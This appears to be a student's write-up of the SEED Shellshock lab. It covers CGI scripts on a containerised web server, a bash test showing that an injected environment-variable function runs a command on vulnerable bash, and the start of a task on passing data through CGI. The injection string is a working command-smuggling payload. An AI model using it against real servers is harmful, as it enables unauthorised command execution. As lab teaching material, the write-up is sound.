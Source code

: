 ```console
```

### Web Server and CGI

In this lab, we will launch a Shellshock attack on the web server container. Many web servers enable [CGI ("Common Gateway Interface")](https://datatracker.ietf.org/doc/html/rfc3875), which is a standard method used to generate dynamic content on web pages and for web applications. Many CGI programs are shell scripts, so before the actual CGI program runs, a shell program will be invoked first, and such an invocation is triggered by users from remote computers. If the shell program is a vulnerable bash program, we can exploit the Shellshock vulnerable to gain privileges on the server.

In our web server container, we have already set up a very simple CGI program (called "<code>vul.cgi</code>"):
```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```
It simply prints out "Hello World" using a shell script:
```console
$ curl http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

Hello World
```

## Lab Tasks

### Task 1: Experimenting with Bash Function

We have installed a vulnerable version of bash inside the container. The program can also be found in the <code>Labsetup</code> folder. Its name is <code>bash_shellshock</code>. Please design an experiment to verify whether this bash is vulnerable to the Shellshock attack or not. Conduct the same experiment on the patched version <code>/bin/bash</code> and report your observations.

**Ans:** For our designated command below, when we run <code>/bin/bash</code>, the shell only outputs "<code>this is a test</code>"; however, when we run <code>/bin/bash_shellshock</code>, our injected environment variable is printed out as well.
```console
root@ba1d1a573167:/# env x='() { :;}; echo vulnerable' bash_shellshock -c "echo this is a test"
vulnerable
this is a test
root@ba1d1a573167:/# env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
this is a test
```

### Task 2: Passing Data to Bash via Environment Variable

To exploit a Shellshock vulnerability in a <code>bash</code>-based CGI program, attackers need to pass their data to the vulnerable <code>bash</code> program, and the data need to be passed via an environment variable. In this task, we need to see how we can achieve this goal. We have provided another CGI program (<code>getenv.cgi</code>) on the server, which prints out all its environment variables:
```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```

